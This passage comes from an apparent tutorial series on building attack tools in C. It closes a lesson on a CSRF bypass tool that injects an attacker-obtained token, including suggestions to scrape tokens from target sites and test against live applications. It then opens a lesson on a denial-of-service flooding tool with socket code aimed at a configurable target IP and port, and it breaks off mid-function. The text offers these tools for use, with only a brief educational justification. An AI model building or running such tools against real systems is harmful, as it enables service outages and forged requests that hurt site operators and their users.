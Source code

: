 - The `bypass_csrf` function manipulates the HTTP request by finding the CSRF token parameter and replacing it with a valid token obtained by the attacker. If the CSRF token parameter is not found, it inserts it at the end of the request.
- The `main` function prompts the user for an HTTP request, reads the request string, and then calls the `bypass_csrf` function to perform CSRF bypass.

#### Further Development:

To make this tool more comprehensive, you can enhance it with the following features:

- Support for parsing and manipulating different types of HTTP requests (e.g., GET, POST, PUT).
- Integration with a web scraping tool or browser automation framework to extract valid CSRF tokens from target web applications.
- Testing against various web applications to identify vulnerabilities and demonstrate CSRF attacks.

#### Conclusion:

Building a CSRF bypass tool in C helps demonstrate the potential risks associated with CSRF vulnerabilities in web applications. By understanding how such vulnerabilities can be exploited, developers and security professionals can take steps to prevent and mitigate them in their applications.

This concludes our twenty-fourth lesson on building a CSRF bypass tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 25: Building a Denial of Service (DoS) Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to perform a Denial of Service (DoS) attack. A DoS attack aims to disrupt the normal functioning of a target system or network by overwhelming it with a flood of malicious requests or traffic. Our tool will generate a high volume of network traffic to exhaust the target's resources, causing it to become unavailable to legitimate users.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

#define TARGET_IP "127.0.0.1"
#define TARGET_PORT 80
#define NUM_REQUESTS 1000

// Function to perform a DoS attack
void perform_dos() {
    int sockfd;
    struct sockaddr_in target_addr;

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("Error creating socket");
        exit(EXIT_FAILURE);
    }

    // Initialize target address structure
    memset(&target_addr, 0, sizeof(target_addr));
    target_addr.sin_family = AF_INET;
    target_addr.sin_addr.s_addr = inet_addr(TARGET_IP);
    target_addr.sin_port = htons(TARGET_PORT);

    // Connect to the target
    if (connect(sockfd, (struct sockaddr *)&target_addr, sizeof(target_addr)) < 0) {
```